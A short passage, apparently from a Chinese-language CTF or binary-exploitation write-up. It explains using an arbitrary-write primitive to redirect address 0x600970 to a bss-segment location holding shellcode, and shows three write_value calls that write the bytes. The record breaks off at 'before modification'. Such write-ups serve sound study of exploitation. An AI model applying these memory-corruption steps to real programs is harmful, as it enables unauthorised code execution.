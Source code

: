 [![](assets/1706959474-45ea7c315f2ba8534393e2334b438057.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125151344-468863da-bb51-1.png)

[![](assets/1706959474-04bdb4355ba79a23f6779deae08e3bac.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125151349-49b35e2a-bb51-1.png)  
我们去修改 0x600970 地址即可，这里是因为可以无限任意写，所以就先去写一个 bss 段的地址，然后在地址上布置好 shellcode，最后退出执行即可

```plain
write_value(b"0x600970", b"0x70") 
write_value(b"0x600971", b"0x0a")   
write_value(b"0x600972", b"0x20")
```

修改前：
